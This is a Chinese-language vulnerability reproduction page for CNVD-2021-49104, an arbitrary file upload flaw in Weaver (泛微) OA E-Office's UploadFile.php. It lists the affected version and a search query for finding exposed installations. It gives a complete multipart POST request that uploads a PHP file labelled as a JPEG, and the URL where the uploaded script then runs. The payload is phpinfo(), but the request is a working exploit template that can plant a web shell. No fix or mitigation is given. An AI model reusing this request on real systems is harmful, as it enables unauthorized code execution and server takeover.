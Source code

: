 # 泛微OA E-Office UploadFile.php 任意文件上传漏洞 CNVD-2021-49104

# 泛微OA E-Office UploadFile.php 任意文件上传漏洞 CNVD-2021-49104

## 漏洞描述

在/general/index/UploadFile.php中上传文件过滤不严格导致允许无限制地上传文件，攻击者可以通过该漏洞直接获取网站权限

## 漏洞影响

```
泛微OA V8
```

## 网络测绘

```
app="泛微-EOffice"
```

## 漏洞复现

登录页面

![image-20220520134325360](/images/202205201343420.png)

发送请求包

```SS
POST /general/index/UploadFile.php?m=uploadPicture&uploadType=eoffice_logo&userId= HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
Accept-Language: zh-CN,zh-TW;q=0.9,zh;q=0.8,en-US;q=0.7,en;q=0.6
Cookie: LOGIN_LANG=cn; PHPSESSID=0acfd0a2a7858aa1b4110eca1404d348
Content-Length: 193
Content-Type: multipart/form-data; boundary=e64bdf16c554bbc109cecef6451c26a4

--e64bdf16c554bbc109cecef6451c26a4
Content-Disposition: form-data; name="Filedata"; filename="test.php"
Content-Type: image/jpeg

<?php phpinfo();?>

--e64bdf16c554bbc109cecef6451c26a4--
```

![image-20220520134342019](/images/202205201343075.png)

再访问

```
/images/logo/logo-eoffice.php
```

![image-20220520134356648](/images/202205201343715.png)

